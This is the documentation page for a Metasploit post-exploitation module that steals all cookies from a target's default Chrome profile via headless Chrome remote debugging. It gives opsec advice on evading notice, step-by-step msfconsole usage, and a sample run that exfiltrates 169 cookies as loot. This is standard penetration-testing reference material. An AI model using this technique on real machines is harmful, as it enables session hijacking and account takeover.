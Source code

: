 ## Gather Chrome Cookies

Reads all cookies from the Default Chrome Profile on the target machine. Uses [Headless Chrome](https://developers.google.com/web/updates/2017/04/headless-chrome) and [Chrome's Remote Debugging](https://chromedevtools.github.io/devtools-protocol/).

## Opsec

### Disk writes
This writes randomly-named files to disk temporarily. You may want to consider the tradeoff between getting the user's Chrome cookies and the noisiness of writing to disk.

The module writes a random 10-15 character file containing HTML to a directory you can specify via `WRITABLE_DIR`.

### Running processes
On non-Windows non-meterpreter sessions, a headless Chrome process will be left running after module execution is completed. You can still find and kill this process manually after the module execution is completed.

## Vulnerable Application

This module works on Chrome 59 or later on all operating systems. This module has been tested on Windows, Linux, and OSX.

Chrome does not need to be running on the target machine for this module to work.

## Verification Steps

  1. Obtain a session on the target machine
  2. Do: ```use post/multi/gather/chrome_cookies```
  3. Do: ```set SESSION <your session ID>```
  4. Do: ```run```
  5. The current user's Chrome cookies will be stored as loot

## Options

  **CHROME_BINARY_PATH**

  The path to the user's Chrome binary. On Linux this defaults to searching for `google-chrome` in `$PATH`. On macOS, this defaults to `/Applications/Google Chrome.app/Contents/MacOS/Google Chrome'`. If the module doesn't find any cookies, it may be that a different Chrome binary to the one the user normally uses is being run. In that case, you can change the Chrome binary executed with this option.

  **WRITABLE_DIR**

  Directory used to write temporary files.

  Two files are written, with random 10-15 character alphanumeric filenames. One file contains an html file for Chrome and the other is where the cookies are saved. Both files are deleted during cleanup.

  **REMOTE_DEBUGGING_PORT**

  Port to tell Chrome to expose Remote Debugging on. Default is the normal remote debugging port, `9222`.

## Scenarios

### Windows

  Suppose you've got a session on the target machine.

  To extract the target user's Chrome cookies

```
msf > use post/multi/gather/chrome_cookies
msf post(multi/gather/chrome_cookies) > options

Module options (post/multi/gather/chrome_cookies):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   CHROME_BINARY_PATH                      no        The path to the user's Chrome binary (leave blank to use the default for the OS)
   REMOTE_DEBUGGING_PORT  9222             no        Port on target machine to use for remote debugging protocol
   SESSION                1                yes       The session to run this module on.
   WRITEABLE_DIR                           no        Where to write the html used to steal cookies temporarily, and the cookies. Leave blank to use the default for the OS (/tmp or AppData\Local\Temp)

msf post(multi/gather/chrome_cookies) > set session <your session id>
session => <your session id>

msf post(multi/gather/chrome_cookies) > run

[*] Determining session platform
[*] Platform: windows
[*] Type: meterpreter
[*] Activated Chrome's Remote Debugging (pid: 9452) via "\Program Files (x86)\Google\Chrome\Application\chrome.exe" --window-position=0,0 --enable-logging --v=1 --disable-translate --disable-extensions --disable-background-networking --safebrowsing-disable-auto-update --disable-sync --metrics-recording-only --disable-default-apps --mute-audio --no-first-run --disable-web-security --disable-plugins --disable-gpu  --user-data-dir="\Users\msfdev\AppData\Local\Google\Chrome\User Data"  --remote-debugging-port=9222  \Users\msfdev\AppData\Local\Temp\YaW8HKZdkk2s85D.html
[+] Found Match
[+] 169 Chrome Cookies stored in /home/msfdev/.msf4/loot/20190108065112_default_172.22.222.200_chrome.gather.co_082863.txt
[*] Removing file \Users\msfdev\AppData\Local\Temp\YaW8HKZdkk2s85D.html
[*] Removing file \Users\msfdev\AppData\Local\Google\Chrome\User Data\chrome_debug.log
[*] Post module execution completed
msf5 post(multi/gather/chrome_cookies) >

```

## Future features

### Profiles
This module only extracts cookies from the default Chrome profile. The target may have multiple, and you may which to extract cookies from all of them. This would require enumerating and extracting the profiles by name. Example code to extract cookies from a non-default Chrome profile can be found at https://github.com/defaultnamehere/cookie_crimes.

## See also
See https://github.com/defaultnamehere/cookie_crimes for more information and manual instructions for Windows.

See https://mango.pdf.zone/stealing-chrome-cookies-without-a-password for the blog post in which this technique was first published.
